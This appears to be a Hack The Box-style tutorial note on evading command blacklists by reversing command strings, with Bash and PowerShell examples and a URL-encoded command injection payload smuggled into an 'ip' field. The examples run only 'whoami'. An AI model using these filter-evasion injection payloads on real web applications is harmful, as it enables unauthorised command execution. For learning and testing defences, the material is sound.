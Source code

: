 ### Concept

Another command obfuscation technique is **reversing commands** and having a command template that switches them back and executes them in real-time. We write `imaohw` instead of `whoami` to avoid triggering the blacklisted command.

### Linux Implementation

**Step 1: Get Reversed String**
```bash
kabaneridev@htb[/htb]$ echo 'whoami' | rev
imaohw
```

**Step 2: Execute Reversed Command**
```bash
# Execute original command by reversing it back
$(rev<<<'imaohw')
```

**Testing:**
```bash
21y4d@htb[/htb]$ $(rev<<<'imaohw')
21y4d
```

### Web Application Testing

**Successful Reversed Command Injection:**
```http
# URL-encoded payload
ip=127.0.0.1%0a$(rev<<<'imaohw')

# Expected result:
PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.635 ms
--- 127.0.0.1 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss

www-data
```

### Windows Implementation

**Step 1: Reverse String in PowerShell**
```powershell
PS C:\htb> "whoami"[-1..-20] -join ''
imaohw
```

**Step 2: Execute with PowerShell Sub-shell**
```powershell
# Execute reversed string with iex (Invoke-Expression)
iex "$('imaohw'[-1..-20] -join '')"
```
